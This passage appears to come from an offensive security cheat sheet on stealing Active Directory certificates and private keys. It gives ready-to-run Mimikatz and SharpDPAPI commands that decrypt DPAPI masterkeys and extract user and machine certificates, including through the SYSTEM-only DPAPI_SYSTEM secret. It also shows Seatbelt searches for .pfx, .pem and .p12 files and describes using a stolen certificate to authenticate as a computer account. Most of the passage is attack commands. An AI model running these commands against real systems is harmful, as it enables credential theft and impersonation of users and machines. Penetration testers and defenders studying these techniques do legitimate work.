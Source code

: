 Decrypt a domain user's masterkey with domain's backup key with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /rpc" "exit"
```

Decrypt masterkey if user's plaintext password is known with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /sid:<ACCOUNT_SID> /password:Passw0rd!" "exit"
```

Simplify the process with SharpDPAPI providing it a file with one or more `{GUID}:SHA1` masterkey mappings (will output a `.pem` file):

```
Cmd > .\SharpDPAPI.exe certificates /mkfile:C:\Temp\mkeys.txt
```



### DPAPI Machine Keys (THEFT3)

It's not possible to decrypt machine keys using the domain's DPAPI backup key, so the adversary can use the `DPAPI_SYSTEM` LSA secret on the system which is accessible only by the SYSTEM user:

```
 # While elevated
Cmd > .\SharpDPAPI.exe certificates /machine
```

After converting the output to `.pfx` and if the appropriate EKU scenario is present, the adversary can use that `.pfx` for domain authentication *as the computer account* (see **PERSIST2**).



### Search for Certificate Files (THEFT4)

Find certificate files lying around with Seatbelt:

```
Cmd > .\Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
Cmd > .\Seatbelt.exe InterestingFiles
```

Some other certificate-related file extensions:

| **File Extension**         | **Description**                                                           |
|----------------------------|---------------------------------------------------------------------------|
| `.key`                     | The private key.                                                          |
| `.crt`/`.cer`              | The certificate.                                                          |
| `.csr`                     | Signing request file. Does not contain certificates or keys.              |
| `.jks`/`.keystore`/`.keys` | Java Keystore. May contain certificates + private keys used by Java apps. |

List EKUs for a certificate with PowerShell:

```
PS > $CertPath = "C:\Users\snovvcrash\cert.pfx"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.EnhancedKeyUsageList
```
